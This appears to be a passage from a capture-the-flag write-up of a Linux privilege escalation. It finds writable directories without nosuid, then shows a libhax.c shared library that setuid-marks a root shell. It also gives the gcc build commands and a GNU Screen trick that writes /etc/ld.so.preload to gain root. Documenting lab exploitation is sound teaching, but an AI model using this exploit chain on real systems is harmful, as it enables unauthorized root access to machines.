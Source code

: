 So as I learned, directories themselves have capabilities, and `nosuid` can be one of them preventing us from running `setuid` functions even if we have the right exploit. We can find other writeable directories:

```
bash-4.4$ find / -type d -writable -exec ls -adl {} \; 2>/dev/null
drwxrwxrwt 2 root root 40 Feb 17 16:21 /dev/mqueue
drwxrwxrwt 2 root root 40 Feb 17 16:21 /dev/shm
dr-x------ 2 apache apache 0 Jul 14 03:48 /proc/2219/task/2219/fd
dr-x------ 2 apache apache 0 Jul 14 03:48 /proc/2219/fd
dr-x------ 2 apache apache 0 Jul 14 03:48 /proc/2219/map_files
drwxrwx---. 2 root apache 6 May  6  2020 /var/lib/php/opcache
drwxrwx---. 2 root apache 6 May  6  2020 /var/lib/php/session
drwxrwx---. 2 root apache 6 May  6  2020 /var/lib/php/wsdlcache
drwx------. 2 apache apache 6 May 20  2021 /var/lib/dav
drwx------. 2 apache apache 6 May 20  2021 /var/lib/httpd
drwxrwx---. 2 apache root 23 Jan 29 02:41 /var/log/php-fpm
drwx------. 3 apache apache 19 Aug 27  2021 /var/cache/httpd
drwx------. 2 apache apache 6 May 20  2021 /var/cache/httpd/proxy
drwxrwxrwt 2 root root 6 Feb 17 16:22 /var/tmp
drwxrwxrwt 2 root root 40 Feb 17 16:22 /tmp
```

I used `/var/lib/php/session`, and it worked properly. Replace the directories within `libhax.c`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/var/lib/php/session/rootshell", 0, 0);
    chmod("/var/lib/php/session/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Then, compile both exploits and transfer them to the machine:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
```

Go to the `/etc` directory and run these:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/var/lib/php/session/libhax.so"
/var/lib/php/session/rootshell
```
